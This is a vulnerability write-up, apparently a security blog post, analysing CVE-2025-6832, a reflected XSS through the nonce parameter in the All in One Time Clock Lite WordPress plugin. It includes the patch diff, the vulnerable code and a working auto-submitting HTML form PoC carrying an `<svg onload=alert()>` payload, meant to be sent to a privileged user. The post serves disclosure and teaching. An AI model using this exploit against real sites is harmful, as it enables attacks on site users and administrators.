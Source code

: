 ```yaml
---
title: CVE-2025-6832 Analysis & POC
description: Security Vulnerability in WordPress All in One Time Clock Lite Plugin.
date: 2025-10-07 17:38:00 +0700
categories: [CVE Analyst]
tags: [analyst, core, xss]
images: ["app.png"]
featuredImage: "app.png"

lightgallery: true

toc:
  auto: false
---
```


<!--more-->

**Reflected Cross-Site Scripting (XSS) vulnerability** in the **All in One Time Clock Lite** plugin for WordPress.
The vulnerability originates from the **nonce** parameter in versions up to and including **2.0**, due to **insufficient input handling** and **lack of output escaping**.
An attacker (including unauthenticated) can inject arbitrary script snippets into the page; these scripts will execute when the victim performs the manipulated action (for example: clicking a link).

* **CVE ID**: [CVE-2025-6832](https://www.cve.org/CVERecord?id=CVE-2025-6832)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 2.0
* **CVSS severity**: Medium (7.1)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress All in One Time Clock Lite Plugin](https://wordpress.org/plugins/aio-time-clock-lite/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **All in One Time Clock Lite**: **v2.0** (vulnerable) and **v2.0.1** (patched).
* **Diff tool** - **Meld** or any diff comparison tool to inspect and compare differences between the two versions.

## Analysis

### Patch diff

In the **vulnerable** version, the `nonce` parameter is taken directly from `$_POST` with **no sanitization**:

```php
$nonce = (isset($_POST["nonce"])) ? $_POST["nonce"] : null;
```

In the **patched** version, the `nonce` parameter is processed with [`sanitize_text_field()`](https://developer.wordpress.org/reference/functions/sanitize_text_field/) before use, preventing injection of malicious code:

```php
$nonce = (isset($_POST["nonce"])) ? sanitize_text_field($_POST["nonce"]) : null;
```

👉 The patch adds an input filtering layer for the `nonce` variable, ensuring data received from the request will have dangerous characters removed before further processing.

![Diff — code change comparison between vulnerable and patched versions](diff.png "Code change comparison between vulnerable and patched versions")

### Vulnerable code

The vulnerability is located in the function `aio_time_clock_lite_js()` of the class `AIO_Time_Clock_Lite_Actions` in the file `aio-time-clock-lite-actions.php`{: .filepath}

```php
public function aio_time_clock_lite_js()
{
    // other logic       
    $nonce = (isset($_POST["nonce"])) ? $_POST["nonce"] : null;

    if (wp_verify_nonce($nonce, 'time-clock-nonce')) {
        // other logic            
    } else {
        echo json_encode(
            [
                "response"     => "failed",
                "message"      => esc_attr_x("Not authorized to perform this action", 'aio-time-clock-lite'),
                "nonce"        => $nonce,
                "clock_action" => $clock_action,
            ]
        );
    }

    wp_reset_postdata();
    die();
}
```

{: file="aio-time-clock-lite-actions.php"}

The `wp_verify_nonce()` function compares the `$nonce` value sent from the client with a valid value previously generated by the server using `wp_create_nonce()`.

```php
<input type="hidden" name="time-clock-nonce" id="time-clock-nonce" value="<?php echo wp_create_nonce("time-clock-nonce"); ?>">
```

{: file="aio-settings.php"}

If `$nonce` is invalid => it goes to the `else` branch returning a **JSON** error that contains `$nonce`.

Clicking `2 references` shows that the function `public function aio_time_clock_lite_js()` is registered as a callback for action hooks:

![Callback registration for ajax hooks](ref1.png "Callback registration for ajax hooks")
*The function aio_time_clock_lite_js() is attached to two Ajax hooks (authenticated & unauthenticated)*

* `wp_ajax_aio_time_clock_lite_js` (authenticated).
* `wp_ajax_nopriv_aio_time_clock_lite_js` (unauthenticated). => Focus

### Sources & Sinks

* **Source**: The `nonce` parameter is taken directly from `$_POST` (unauthenticated request).
* **Sink**: The `nonce` value is reflected back in `echo json_encode(...)`.

### Flow

1. Send a POST request (unauthenticated) to `/wp-admin/admin-ajax.php` with **params**:

```
action=aio_time_clock_lite_js&nonce=nonce_value
```

2. The callback `aio_time_clock_lite_js()` is invoked
3. The `nonce` value is checked => **invalid**
4. The `nonce` value is reflected into the response body via `echo json_encode(...)`

## Exploit

### Proof of Concept (PoC)

* Create a webpage containing a submit form:

```html
<form action="http://localhost/wp-admin/admin-ajax.php" method="post">
  <input type="hidden" name="action" value="aio_time_clock_lite_js">
  <input type="hidden" name="nonce" value="<svg onload=alert()>">
</form>
<script>document.forms[0].submit()</script>
```

* Send the link to the page containing the form to a user with privileges.
* Observe the injected **JavaScript** executing.

![Result — PoC execution screenshot](result.png "Result — PoC execution screenshot")

## Conclusion

The **CVE-2025-6832** vulnerability in **All in One Time Clock Lite <= 2.0** allows an **unauthenticated attacker** to exploit a Reflected XSS via the `nonce` parameter. The **2.0.1** patch added `sanitize_text_field()` to filter input, preventing malicious code from being reflected in the JSON response.

**Key takeaways**:

* Always **sanitize** and **escape** data before returning it in responses.
* Endpoints exposed to **nopriv (unauthenticated)** requests should be carefully reviewed.
* Reflected XSS commonly occurs when input values are directly reflected into output (JSON/HTML).
* **Updating the plugin** promptly is the simplest way to reduce risk.

## References

[Cross-site scripting (XSS) cheat sheet — PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress All in One Time Clock Lite <= 2.0 — CVE-2025-6832](https://patchstack.com/database/wordpress/plugin/aio-time-clock-lite/vulnerability/wordpress-all-in-one-time-clock-lite-tracking-employee-time-has-never-been-easier-plugin-2-0-reflected-cross-site-scripting-vulnerability)
